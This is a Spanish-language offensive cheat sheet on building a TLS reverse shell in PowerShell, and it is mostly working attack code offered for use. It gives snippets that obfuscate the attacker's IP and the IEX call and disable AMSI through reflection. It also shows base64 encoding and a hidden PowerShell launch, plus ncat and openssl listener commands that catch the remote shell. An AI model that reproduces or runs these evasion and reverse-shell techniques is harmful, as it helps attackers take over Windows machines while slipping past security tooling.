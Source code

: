 ## **TCP Reverse Shell mediante TLS en Powershell**

Todos los agradecimientos a estos dos enlaces, es puro virtuosismo lo que hay ahí, esto no es más que un copia y pega:

https://0xdarkvortex.dev/index.php/2019/07/17/red-team-ttps-part-1-amsi-evasion/

https://github.com/3v4Si0N/HTTP-revshell

**1.- Ofuscar la IP**

Básicamente se trata de crear los valores en hexadecimal:

```
printf "%x,%x,%x,%x\n" 192 168 11 34
c0,a8,b,22
```

```powershell
$px = "c0","a8","b","22"
$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.'
```

**2.- Ofuscar la cadena IEX**

Establecemos un alias con los valores de una cadena aleatoria, extrayendo la cadena con los índices del array:

```powershell
$x = "new-exercise"
Set-alias $x  ($x[$true-4] + ($x[[byte]("0x" + "FF") - 263]) + $x[[byte]("0x" + "ba") - 193]) .'
```
Aquí otro método que he visto, pero la idea es utilizar el tuyo propio:
```powershell
[array]$shurmano = "I","n","t","E","r","n","e","X" ;
set-alias new-exercise $($shurmano | foreach { if ($_ -cmatch '[A-Z]' -eq $true) {$x += $_}}; $x)
```

**3.- Una vez ofuscado, deshabilitar AMSI para lanzar script**
Echad un vistazo a la función PatchMe del [tls reverse shell](https://github.com/g4ngli0s/chuletas/blob/master/bypasspowershell/tlsrevshell.ps1) donde lo que realmente hace es cifrar esto:

```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('Syste' + 'm.Ref' + 'lect' + 'ion.Bi' + 'ndi' + 'ngF' + 'lags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('Syste' + 'm.Typ' +
 'e')), [Object]([Ref].Assembly.GetType('Syste' + 'm.Man' + 'agemen' + 't.Automa' + 'tion.Am' + 'siU' + 'ti' + 'ls')),('GetF' + 'ield')).Invoke('am' + 'siIn' + 'itFai' + 'led',(('NonPu' + 'blic,S' + 'tatic') -as [String].Assembly
.GetType('Syste' + 'm.Refl' + 'ection.B' + 'indingF' + 'lags'))).SetValue($null,$True)
```

**4.- Pasar el script de powershell a base64**

```
cat tlsrevshell.ps1 | iconv -f UTF8 -t UTF16LE | base64 -w 0
```

**5.- Ejecutarlo desde consola PS**

```
powershell -noP -sta -w 1 -enc ENC64SCRIPT
```

Como muestra de estás técnicas os dejo el [TCP reverse shell con TLS](https://github.com/g4ngli0s/chuletas/blob/master/bypasspowershell/tlsrevshell.ps1), como listener en vuestra máquina kali podéis usar ncat u openssl:

```
ncat --allow <IP> -vnl <PORT> --ssl
```
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
```


